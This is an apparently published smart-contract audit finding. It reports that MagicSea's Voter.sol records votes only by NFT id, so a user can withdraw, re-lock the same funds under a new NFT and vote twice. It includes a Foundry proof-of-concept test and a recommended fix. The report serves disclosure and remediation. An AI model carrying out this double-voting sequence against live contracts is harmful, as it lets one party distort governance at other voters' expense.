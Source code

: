 Bitter Seaweed Eagle

Medium

# Users can double their voting power inside `Voter.sol`

## Summary
When users call `Voter.sol::vote` the only thing that is registered is the id of the NFT they have used. That means that if their lock has already passed, they can withdraw their funds, create a new lock with the same funds and receive a new NFT with a new id and vote once again, essentially doubling their voting power.

## Vulnerability Detail
```solidity
    function vote(uint256 tokenId, address[] calldata pools, uint256[] calldata deltaAmounts) external {
        if (pools.length != deltaAmounts.length) revert IVoter__InvalidLength();

        // check voting started
        if (!_votingStarted()) revert IVoter_VotingPeriodNotStarted();
        if (_votingEnded()) revert IVoter_VotingPeriodEnded();

        // check ownership of tokenId
        if (_mlumStaking.ownerOf(tokenId) != msg.sender) {
            revert IVoter__NotOwner();
        }

        uint256 currentPeriodId = _currentVotingPeriodId;
        // check if alreay voted
@>      if (_hasVotedInPeriod[currentPeriodId][tokenId]) {
            revert IVoter__AlreadyVoted();
        }

        // check if _minimumLockTime >= initialLockDuration and it is locked
        if (_mlumStaking.getStakingPosition(tokenId).initialLockDuration < _minimumLockTime) {
            revert IVoter__InsufficientLockTime();
        }
        ...
```

The check inside `Voter::vote` only records the tokenId to check weather the funds have already been used to vote. By burning and minting a new NFT using `MlumStaking::withdrawFromPosition` and `MlumStaking::createPosition` the user can double their voting power using the same amount of funds.

## Impact
POC
```solidity
    function testDoubleVote() public{
        _stakingToken.mint(ALICE, 2 ether);
        vm.startPrank(ALICE);
        _stakingToken.approve(address(_pool), 1 ether);
        _pool.createPosition(1 ether, 2 weeks);
        vm.stopPrank();

        skip(2 weeks);
        vm.prank(DEV);
        _voter.startNewVotingPeriod();
        vm.startPrank(ALICE);
        _voter.vote(1, _getDummyPools(), _getDeltaAmounts());
        _pool.withdrawFromPosition(1, 1 ether);
        _stakingToken.approve(address(_pool), 1 ether);
        _pool.createPosition(1 ether, 2 weeks);
        _voter.vote(2, _getDummyPools(), _getDeltaAmounts());
        vm.stopPrank();

        assertEq(2e18, _voter.getTotalVotes());
    }
```

## Code Snippet
https://github.com/sherlock-audit/2024-06-magicsea/blob/main/magicsea-staking/src/Voter.sol#L153-L219
https://github.com/sherlock-audit/2024-06-magicsea/blob/main/magicsea-staking/src/MlumStaking.sol#L354-L390
https://github.com/sherlock-audit/2024-06-magicsea/blob/main/magicsea-staking/src/MlumStaking.sol#L496-L502
## Tool used

Manual Review
VS Code
Foundry

## Recommendation
Do not allow NFTs created during the voting period to be used for voting.